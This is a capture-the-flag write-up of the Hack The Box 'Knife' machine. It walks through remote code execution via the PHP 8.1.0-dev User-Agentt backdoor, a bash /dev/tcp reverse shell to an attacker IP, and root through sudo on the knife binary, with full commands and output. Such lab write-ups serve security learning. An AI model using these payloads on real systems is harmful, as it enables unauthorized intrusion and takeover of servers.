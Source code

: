 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Knife is a quick and fun easy box ."
date: 2023-01-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP 8.1.0-dev - 'User-Agent' [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```


![](/assets/images/htb-writeup-knife/knife_logo.png)

Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary.

## PortScan

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 13:57 CST
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

The Knife website runs on port 80 and has the following technologies reported by wappalyzer 

![](/assets/images/htb-writeup-knife/website1.png)

## Enumeration

I use curl and I see this that version of PHP is vulnerable to RCE
```
curl -s http://10.10.10.242 -I
```
```
HTTP/1.1 200 OK
Date: Tue, 10 Jan 2023 20:05:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

We can found information here 
- [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)

I can abuse of the User-Agent because is vulnerable to RCE

```
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
```
```
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

And is vulnerable so we can send a reverse shell 
```
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.21/443 0>&1\"');" | html2text
```
```
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.242] 60468
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

We can have a best bash terminal so we can do
```
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
```
## User flag

We can see the first flag

```
james@knife:~$ cat user.txt 
9adc315d20ef969531a7b07c66a31d19
```

## Root

After enumerating the system I can see that I can run this binary as root, we can use Gtfobins

```
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

-[https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

We follow the instructions and we're root

```
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# bash
root@knife:/home/james# cd /root
root@knife:~# cat root.txt 
f8c5f763d30a3ed17dd24c4c216fd87b
```

## Another way to be root

You can abuse of the pkexec because is SUID but I won't do it

```
james@knife:/$ find -perm -4000 2>/dev/null | grep -v snap
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/su
./usr/bin/fusermount
./usr/bin/pkexec
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/umount
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/mount
./usr/bin/newgrp
./usr/bin/at
```

-[https://github.com/Almorabea/pkexec-exploit](https://github.com/Almorabea/pkexec-exploit)

Only transfer the script to the machine and execute and that's all




